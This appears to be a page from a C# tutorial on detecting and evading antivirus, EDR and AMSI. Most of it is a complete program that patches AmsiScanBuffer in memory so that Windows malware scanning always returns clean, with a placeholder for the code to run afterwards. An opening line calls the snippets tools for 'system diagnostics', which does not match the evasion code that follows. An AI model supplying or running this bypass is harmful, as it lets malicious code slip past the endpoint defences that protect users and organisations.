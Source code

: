 These code snippets provide straightforward methods to obtain system information and can be integrated into various C# applications for system diagnostics and environmental checks.

Determining if a program is being examined by Antivirus (AV), Endpoint Detection and Response (EDR), or Antimalware Scan Interface (AMSI) and attempting to bypass them involves various techniques. Here are some C# code snippets that can help detect the presence of such security tools and techniques to bypass or evade them.

### 1. **Detecting AMSI**

AMSI is a feature in Windows that allows applications and services to integrate with any antimalware product present on a machine. You can check if AMSI is being invoked and disable it.

#### **Bypass AMSI (Disabling AMSI in Memory)**

You can disable AMSI by patching its function in memory. This involves locating the `AmsiScanBuffer` function and overwriting it.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class AMSIBypass
{
    [DllImport("kernel32.dll")]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    static void BypassAMSI()
    {
        IntPtr hAMSI = GetModuleHandle("amsi.dll");
        IntPtr AmsiScanBufferAddr = GetProcAddress(hAMSI, "AmsiScanBuffer");

        uint oldProtect;
        VirtualProtect(AmsiScanBufferAddr, (UIntPtr)0x1000, 0x40 /* PAGE_EXECUTE_READWRITE */, out oldProtect);

        // Patch the first bytes of AmsiScanBuffer to return S_OK (0x00000000)
        byte[] patch = { 0x31, 0xC0, 0xC3 }; // xor eax, eax; ret
        Marshal.Copy(patch, 0, AmsiScanBufferAddr, patch.Length);

        VirtualProtect(AmsiScanBufferAddr, (UIntPtr)0x1000, oldProtect, out oldProtect);
    }

    static void Main(string[] args)
    {
        BypassAMSI();
        Console.WriteLine("AMSI Bypass Applied!");
        // Your code goes here
    }
}
```
